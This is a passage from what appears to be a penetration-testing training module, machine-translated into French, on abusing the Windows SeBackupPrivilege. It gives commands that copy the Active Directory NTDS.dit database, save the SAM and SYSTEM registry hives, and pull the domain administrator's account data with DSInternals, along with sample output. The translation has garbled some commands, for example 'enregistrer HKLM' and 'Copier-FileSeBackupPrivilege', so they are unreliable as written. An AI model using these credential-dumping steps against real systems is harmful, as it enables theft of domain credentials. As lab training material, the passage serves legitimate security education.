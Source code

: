 Copier NTDS.dit localement

```
PS C:\htb> Copier-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copié 16777216 octets

```

#### Sauvegarde des ruches de registre SAM et SYSTEM

Le privilège nous permet également de sauvegarder les ruches de registre SAM et SYSTEM, que nous pouvons extraire hors ligne des informations d'identification du compte local à l'aide d'un outil tel que "secretsdump.py" d'Impacket.

Sauvegarde des ruches de registre SAM et SYSTEM

```
C:\htb> enregistrer HKLM\SYSTEM SYSTEM.SAV

L'opération s'est bien déroulée.

C:\htb> enregistrer HKLM\SAM SAM.SAV

L'opération comterminé avec succès.

```

Il convient de noter que si un dossier ou un fichier a une entrée de refus explicite pour notre utilisateur actuel ou un groupe auquel il appartient, cela nous empêchera d'y accéder, même si l'indicateur `FILE_FLAG_BACKUP_SEMANTICS` est spécifié.

#### Extraction des informations d'identification de NTDS.dit

Avec le NTDS.dit extrait, nous pouvons utiliser un outil tel que `secretsdump.py` ou le module PowerShell `DSInternals` pour extraire toutes les informations d'identification du compte Active Directory. Obtenons le hachage NTLM uniquement pour le compte `administrateur` du domaine à l'aide de `DSInternals`.

Extraction des informations d'identification de NTDS.dit

```
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrateur,CN=utilisateurs,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

Nom unique : CN=Administrateur,CN=Utilisateurs,DC=INLANEFREIGHT,DC=LOCAL
Sid : S-1-5-21-669053619-2741956077-1013132368-500
Guide : f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName : administrateur
SamAccountType : Utilisateur
UserPrincipalName :
ID de groupe principal : 513
SidHistory :
Activé : Vrai
UserAccountControl : NormalAccount, PasswordNeverExpires
Nombre d'administrateurs : vrai
Supprimé : faux
Date de dernière connexion : 06/05/2021 17:40:30
Afficher un nom:
Prénom:
Nom de famille:
Description : compte intégré pour l'administration de l'ordinateur/du domaine
ServicePrincipalName :
SecurityDescriptor : DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
```